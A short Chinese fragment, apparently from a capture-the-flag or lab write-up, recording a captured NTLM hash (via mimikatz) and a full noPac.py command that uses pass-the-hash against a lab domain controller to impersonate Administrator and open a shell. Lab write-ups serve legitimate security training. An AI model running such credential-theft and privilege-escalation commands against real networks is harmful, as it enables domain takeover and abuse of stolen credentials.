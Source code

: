 mimikatz抓到了zhanghui的hash

![image-20241118205700174](images/22.png)

```
1232126b24cdf8c9bd2f788a9d7c7ed1
```

systeminfo找了后可以打nopac

```
python3 noPac.py xiaorang.lab/zhanghui -hashes ':1232126b24cdf8c9bd2f788a9d7c7ed1' -dc-ip 172.22.11.6 --impersonate Administrator -create-child -use-ldap -shell
```
